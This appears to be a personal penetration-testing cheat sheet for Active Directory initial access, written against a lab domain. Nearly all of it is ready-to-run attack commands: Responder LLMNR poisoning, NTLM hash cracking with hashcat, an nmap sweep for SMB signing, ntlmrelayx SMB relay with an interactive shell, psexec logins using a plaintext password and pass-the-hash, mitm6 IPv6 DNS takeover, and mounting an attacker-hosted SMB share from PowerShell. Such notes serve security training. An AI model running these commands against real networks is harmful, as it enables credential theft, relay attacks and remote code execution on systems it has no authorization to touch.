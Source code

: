 
![[Pasted image 20241110154004.png]]

# Initial Attack Vectors

1st
- [ ] LLMNR Poisoning [[01 LLMNR Poising]]
```
sudo responder -I eth0 -dwP
```

```
sudo responder -I eth0 -dwPv
```

```
\\<Attacker_IP>
```

Make sure that SMB and HTTP is on


<hr>


- [ ] Capturing NTLMv2 Hashes with Responder [[1.1 Cracking Captured Hashes]]
```
hashcat --help | grep NTLM
```


<hr>

2nd 

- [ ] SMB Relay Attack [[02 SMB relay attack]]
```
nmap --script=smb2-security-mode.nse -p445 <ip_address>
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```


Swipe Entire Network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```


 configuration changes to the responder
 ```
 nano /etc/responder/Responder.conf
```

```
SMB = OFF
HTTP = OFF
```

responder
```
sudo responder -I eth0 -dwPv 
```


NTLM relay (i.e. make sure to add the IP address of the host in the target.txt with SMB signing off)
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```

If want interactive shell
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

```
nc 127.0.0.1 <port number>
```



<hr>

3rd 

- [ ] Gaining Shell [[03 Gaining shells]]
```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```

```
psexec.py <username>@<IP_192.168.17.140> -hashes :
```

wmiexec.py or smbexec.py

<hr>

4th

- [ ] IPV6 DNS Takeover via MIM6 [[04 IPv6 Attacks]]


Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```


```
mitm6 -d marvel.local
```


<hr>

5th

- [ ] Passback Attacks
```
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
```


<hr>

----------------------------------------------------END----------------------------------------------







# SMB Sever

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```







# Neo4j
if forget the password of neo4j than simply delete the file at this location
```
locate neo4j | grep auth
```

